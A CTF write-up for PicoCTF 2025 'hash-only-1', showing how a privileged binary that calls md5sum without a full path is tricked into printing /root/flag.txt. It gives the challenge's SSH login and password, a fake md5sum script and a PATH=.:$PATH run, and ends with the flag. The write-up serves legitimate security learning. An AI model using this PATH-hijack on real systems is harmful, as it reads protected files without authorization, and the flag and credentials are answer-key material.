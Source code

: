 # PicoCTF 2025

## hash-only-1

> Here is a binary that has enough privilege to read the content of the flag file but will only let you know its hash. If only it could just give you the actual content!  
> Author: Junias Bonou  
> [`hash-only-1`](hash-only-1)

**Tags:** binary_exploitation

---

## 🧾 Overview

This challenge gives us a binary named `flaghasher` running on a remote server. The binary has access to `/root/flag.txt`, but instead of showing the flag, it only prints its MD5 hash. Our job is to somehow reveal the actual flag.

---

## ✅ Solution

I started by SSHing into the server:

```bash
ssh ctf-player@shape-facility.picoctf.net -p 59939
# password: a15d25e1
```

Once connected, I ran the binary:

```bash
./flaghasher
```

It responded with:

```
Computing the MD5 hash of /root/flag.txt....

3daf8ce91eaaba82780562d65223e131  /root/flag.txt
```

At that point, it was clear the binary was just calling `md5sum` on the flag file. Since it didn’t use the full path (`/usr/bin/md5sum`), I figured it was using the `PATH` variable to find the command.

So I created a fake `md5sum` script in the current directory that would print the flag before passing the file along to the real `md5sum`:

```bash
echo -e '#!/bin/bash\ncat "$@"\n/bin/md5sum "$@"' > md5sum
chmod +x md5sum
```

Then I ran the binary again with the current directory placed at the beginning of `PATH`:

```bash
PATH=.:$PATH ./flaghasher
```

This time, it printed both the actual contents of `/root/flag.txt` and the hash:

```
picoCTF{sy5teM_b!n@riEs_4r3_5c@red_0f_yoU_cc661106}
3daf8ce91eaaba82780562d65223e131  /root/flag.txt
```

It worked exactly as I had planned.

---

## Flag

```
picoCTF{sy5teM_b!n@riEs_4r3_5c@red_0f_yoU_cc661106}
```
